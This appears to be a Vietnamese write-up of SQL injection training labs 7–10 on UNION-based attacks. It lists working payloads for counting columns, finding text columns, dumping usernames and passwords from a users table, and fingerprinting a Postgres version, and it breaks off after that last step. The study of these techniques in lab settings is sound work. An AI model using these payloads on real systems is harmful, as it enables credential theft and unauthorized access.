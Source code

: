 ## Lab 7: SQL injection UNION attack, determining the number of columns returned by the query
Description: Xác định số cột trả về bởi câu query bằng cách sử dụng UNION attack
Do bài này chỉ yêu cầu xác định số cột, cho nên dùng ORDER BY để check số cột là được, sau đó dùng UNION SELECT để pass bài lab
```
' OR 1=1--
' ORDER BY 3--
' UNION SELECT NULL,NULL,NULL--
```

## Lab 8: SQL injection UNION attack, finding a column containing text
Description: Xác định cột nào sử dụng datatype là string bằng UNION attack, và khiến databasse hiện string 'sbYahD' để pass bài lab
Bài này thì sau khi thực hiện các bước như bài trên, chỉ cần thay 1 string vào từng chữ NULL để check xem cột nào dùng string thôi.
```
' OR 1=1--
' ORDER BY 3--
' UNION SELECT NULL,'sbYahD',NULL-- 
```

![image](https://hackmd.io/_uploads/BJO6Qol3T.png)

## Lab 9: SQL injection UNION attack, retrieving data from other tables
Description: Trong description của bài đã nêu rõ có 1 bảng khác là `users` chứa 2 cột `username` và `password`. Sử dụng UNION attack để lấy được tất cả `username` và `password` rồi đăng nhập làm admin để pass bài lab.
```
' OR 1=1--
' ORDER BY 2--
' UNION SELECT NULL,NULL-- 
' UNION SELECT 'a','a'-- 
' UNION SELECT username,password FROM users-- 
```
![image](https://hackmd.io/_uploads/H1wfriehp.png)
Login làm admin và pass bài lab
![image](https://hackmd.io/_uploads/HkIBrsena.png)

## Lab 10: SQL injection UNION attack, retrieving multiple values in a single column
Description: Trong description của bài đã nêu rõ có 1 bảng khác là `users` chứa 2 cột `username` và `password`. Sử dụng UNION attack để lấy được tất cả `username` và `password` rồi đăng nhập làm admin để pass bài lab.

```
' OR 1=1--
' ORDER BY 2--
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,'a'-- (Chỉ có cột thứ 2 là string)
```
Bài này nếu đơn giản thì chỉ cần payload bên dưới để lấy password của administrator do đề bài đã cho tên bảng với các cột
`' UNION SELECT NULL,password FROM users WHERE username='administrator'--`
Nhưng bài lab này muốn hướng đến việc sử dụng concat string để list tất cả dữ liệu trong bảng chỉ với 1 cột duy nhất (Tên bài lab).
Check database sử dụng loại nào với phiên bản
`' UNION SELECT NULL,version()--`
Mình thấy database dùng loại Postgres